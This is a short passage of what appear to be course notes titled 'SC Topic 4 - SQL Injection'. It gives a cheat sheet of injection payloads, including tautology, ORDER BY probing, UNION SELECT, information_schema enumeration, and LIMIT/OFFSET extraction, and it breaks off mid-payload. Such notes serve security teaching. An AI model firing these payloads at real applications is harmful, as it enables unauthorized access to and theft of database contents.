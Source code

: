 # SC Topic 4 - SQL Injection

###### tags: #SC 

## Table of Contents
```toc
```
## SQL Injection Cheat Sheet
- Basic SQL Injection
```
1' or 1=1; -- -  
```
- ORDER BY Attack
```
1' order by 1; -- -
```
- UNION Attack
```
1' union select null; -- -
```
- `information_schema` Attacks (Use fillers to match number of columns in table)
```
1' union select 1,2,table_schema from information_schema.tables;-- - 
1' union select 1,table_name,table_schema from information_schema.tables; -- - 
1' union select 1,column_name,table_schema from information_schema.columns where table_name='tablename'; -- - 
```
- Using LIMIT to limit number of rows to display
```
1' union select 1,column2,column3 from table_name LIMIT 1; -- - 
```
- Using OFFSET:
```
1' union select 1,column2,column3 from table_na
```